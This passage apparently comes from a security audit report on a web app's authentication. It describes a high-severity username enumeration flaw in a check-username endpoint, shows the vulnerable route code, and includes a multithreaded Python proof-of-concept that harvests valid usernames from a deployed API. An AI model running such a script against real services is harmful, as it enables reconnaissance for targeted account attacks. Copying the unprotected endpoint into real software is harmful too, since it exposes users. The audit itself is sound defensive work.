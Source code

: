 **Impact:**
- Extended window for exploitation
- Inability to revoke compromised tokens
- Session persistence after logout

---

### 2.3 HIGH: Username Enumeration via Check Endpoint

**Severity:** HIGH  
**CVSS Score:** 6.5

**Vulnerability Description:**

The `/api/auth/check-username/:username` endpoint allows unauthenticated username enumeration:

```javascript
// server/routes/auth.js
router.get('/check-username/:username', async (req, res) => {
  try {
    const { username } = req.params;
    const existingUser = await get('SELECT id FROM users WHERE username = ?', [username]);
    
    res.json({ exists: !!existingUser });  // ← Leaks user existence!
  } catch (error) {
    res.status(500).json({ error: 'Internal server error' });
  }
});
```

**Attack Vector:**

1. **User Enumeration Attack:**
   - No rate limiting on this endpoint
   - Attacker can enumerate all registered usernames
   - Build database of valid users for targeted attacks

**Proof of Concept:**

```python
#!/usr/bin/env python3
import requests
import concurrent.futures

API_URL = "https://[server-deployment].vercel.app/api"

# Common username list
usernames = [
    "admin", "administrator", "root", "user", "test",
    "alice", "bob", "charlie", "david", "eve",
    # ... add thousands of common names
]

def check_username(username):
    try:
        response = requests.get(f"{API_URL}/auth/check-username/{username}")
        if response.status_code == 200:
            data = response.json()
            if data.get('exists'):
                return username
    except:
        pass
    return None

# Concurrent enumeration (100 threads)
with concurrent.futures.ThreadPoolExecutor(max_workers=100) as executor:
    results = executor.map(check_username, usernames)
    valid_users = [u for u in results if u]
```